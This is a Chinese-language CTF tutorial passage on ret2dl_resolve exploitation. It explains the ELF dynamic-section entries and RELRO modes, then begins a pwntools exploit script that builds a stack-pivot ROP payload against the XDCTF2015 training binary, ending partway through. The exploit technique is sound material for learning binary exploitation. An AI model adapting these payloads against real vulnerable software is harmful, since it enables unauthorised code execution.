然后我们可以通过调试跟进linkmap这个地址里，会发现这里的第三个地址是dynamic地址
在dynamic段中，这里我们主要用到的是三个结构体表项

* DT_STRTAB(ELF String table)
处于.dynamic的地址加0x44的位置；
该元素保存着字符串表地址，在第一部分有描述，包括了符号名，库名，和一些其他的在该表中的字符串。指向**\.dynstr**。
* DT_SYMTAB(ELF symbol table)
处于.dynamic的地址加0x4c的位置；该元素保存着符号表的地址，在第一部分有描述，对32-bit类型的文件来说，关联着一个Elf32_Sym入口。指向**\.dynsym**。
* DT_JMPREL(ELF JMPREL relocation table)
处于.dynamic的地址加0x84的位置；假如存在，它的入口d_ptr成员保存着重定位入口（该入口单独关联着PLT）的地址。假如lazy方式打开，那么分离它们的重定位入口让动态连接器在进程初始化时忽略它们。假如该入口存在，相关联的类型入口DT_PLTRELSZ和DT_PLTREL一定要存在。指向**\.rel.plt**。

![img](https://img-blog.csdnimg.cn/20210501012700825.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2p6YzAyMDEyMQ==,size_16,color_FFFFFF,t_70#pic_center)

后续整个流程可以看[(12条消息) 从o开始的pwn学习之超详细ret2dl_resolve_金语的博客-CSDN博客](https://blog.csdn.net/jzc020121/article/details/116312592)这里叙述的很详细，这个过程很重要，是利用的核心

然后就是这篇cyberangel师傅写的文章，非常详细，必看[高级ROP-ret2dlresolve(1) · 语雀 (yuque.com)](https://www.yuque.com/cyberangel/rg9gdm/oyne1i#GUvKY)

======================================================================

```bash
# 一些需要用到的命令，main为文件名
readelf -x .rel.plt main # 查看对应节
readelf -a main # 查看所有信息，各个节段
```

|          | no-relro | partial-relro | full-relro |
| -------- | -------- | ------------- | ---------- |
| .dynamic | 可写     | 只读          | 只读       |
| .got.plt | 可写     | 可写          | 只读       |
| .got     | 可写     | 只读          | 只读       |

## X86

对这块的知识都了解了以后，就是利用。我觉得cyberangel师傅的博客里例题和原理分析已经很详细了，这里我主要讲一下利用方面

### no relro

因为relro是关闭的，所以dynamic段是可写的，那直接去伪造DT_STRTAB

之所以不直接修改原DT_STRTAB中的函数名，是因为DT_STRTAB不可写

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_no_relro_32')
elf=ELF('./main_no_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']
pop_ebp=0x0804862b
leave=0x0804851A
pop_esi_edi_ebp=0x08048629# 占位
new_stack=bss_addr+0x300

# 栈迁移跳转执行
payload1='a'*112+p32(read_plt)+p32(pop_esi_edi_ebp)+p32(0)+p32(bss_addr+0x300)+p32(0x500)
payload1+=p32(pop_ebp)+p32(new_stack)+p32(leave)
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

# 修改strtable地址同时布置fakestrtable
```